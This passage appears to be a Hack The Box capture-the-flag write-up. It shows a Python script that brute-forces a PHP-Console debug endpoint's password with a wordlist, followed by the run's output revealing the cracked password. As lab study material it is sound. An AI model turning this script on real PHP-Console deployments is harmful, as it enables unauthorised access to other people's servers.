 ```python
    hackthebox_url = sys.argv[1]

    auth = PHP_ConsoleAuth(None, SALT, pub_key=PUB_KEY)
    
    success = False

    print("[+] Starting bruteforce on {}  PHP-Console [+]".format(hackthebox_url))
    
    with open(passwords_list, 'r', errors='ignore') as wordlist:
        for password in wordlist.readlines():
            if not password: continue
            password = password.rstrip()
            auth.setPassword(password) 
            auth.calcPassHash()

        
            print("[+] Trying {} [+]".format(password))
            token = auth.getToken()
            json_req = {
                "php-console-client": 5,
                "auth": {
                    "publicKey": PUB_KEY,
                    "token": token 
                } 
            }

            pack = base64.b64encode(json.dumps(json_req).encode()).decode()
            cookie = {"php-console-server": "5", "php-console-client": pack}
            req = requests.post(hackthebox_url, cookies=cookie)

            php_console_res = req.headers.get('PHP-Console', None)
            if php_console_res is None:
                print("Is this really running PHP-CONSOLE ?")
                sys.exit(1)
            
            php_console_res = json.loads(php_console_res)
            success = php_console_res['auth']['isSuccess']

            if success:        
                print("[+] Cracked! Password -> {} [+]".format(password))
                break


```
I downloaded the classic [rockyou.txt](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt) wordlist, and run against our target:

```shell
$ python3 brute.py docker.hackthebox.eu:32741 rockyou.txt
...
[+] Cracked! Password -> poohbear [+]

```


Now enter the password, and the flag will be in the alert! 


I don't know if i can post the flag here, but the flag will be in the alert!

Thanks! i need to sleep now...